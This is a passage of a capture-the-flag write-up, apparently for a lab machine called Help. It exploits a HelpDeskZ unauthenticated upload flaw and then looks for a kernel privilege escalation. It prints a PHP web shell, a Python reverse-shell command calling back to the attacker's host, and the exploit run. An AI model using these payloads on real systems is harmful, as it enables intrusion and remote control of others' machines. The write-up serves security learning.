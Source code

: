 Reading through the help text blurb at the top of the file, we get the usage info as well as how to perform the attack. Looks like we need to work out where the files will be uploaded to and then it loops and guesses the file name based on the current time and original file name. 

Luckily for us the additional gibuster might have paid off, it has found a /uploads directory. To fully understand how the exploit works and if we need to change any code the help text also provides a link to where the vulnerable code in the source application exists.. On line 141 of the [submit_ticket_controller.php file](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php) 

Looking at the code, the application takes the file, renames it with an MD5 string and saves it to `[UPLOAD_DIR]/tickets/`

Now that we have  the knowledge of everything we need, its time to figure out a payload. Since this is a php web application it might be able to use our cmd.php script bundled with seclists and is a common web shell:
```
<?php echo system($_REQUEST['cmd']); ?>
```
We set up the submit ticket form ready to go with random data to fill the required fields, enter the captcha so everything is ready to go.

![233111575.png]({{site.baseurl}}/Images/Help/233111575.png)

Before we submit the ticket we run the python exploit so that hopefully it will be running and generate the same MD5 time code as the application:
```
root@kali: python 40300.py http://10.10.10.121/support/uploads/tickets/ thoseguys.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/7dfad97ac10a39c7e13bf16a79f893a4.php
```
> If (like us) you are not in the GMT time zone, you may need to go to the users preferences and select the timezone in the application to match your time zone so the MD5 hashing matches

Once we get a hit we can browse there and use our ?cmd= query string to run commands against the system.

Having a quick poke around at applications that can give us a shell we see with which python that the server has python installed and we are able to use our standard python reverse shell code:
```
?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Set up a matching nc listener (`nc -nlvp 443`) and we get a shell. enter `python -c 'import pty; pty.spawn(“/bin/bash”)` to upgrade the shell and we are now on the box as the help user:
```
help@help:~$
```
From here we are able to read the user.txt flag and it is time to enumerate the box and find a way to become root.

As we normally do once we have access to the box we look at interesting files on the machine as well as the server kernel version etc. In this case we notice that the kernel running is not up to date:
```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
Using `searchsploit` again we see that this version of the Linux kernel is vulnerable to a local privilege escalation vulnerability. This sounds just like what we are looking for:
```
help@help:~$ searchsploit linux kernel 4.4.0-116
----------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                 |  Path (/usr/share/exploitdb/)
```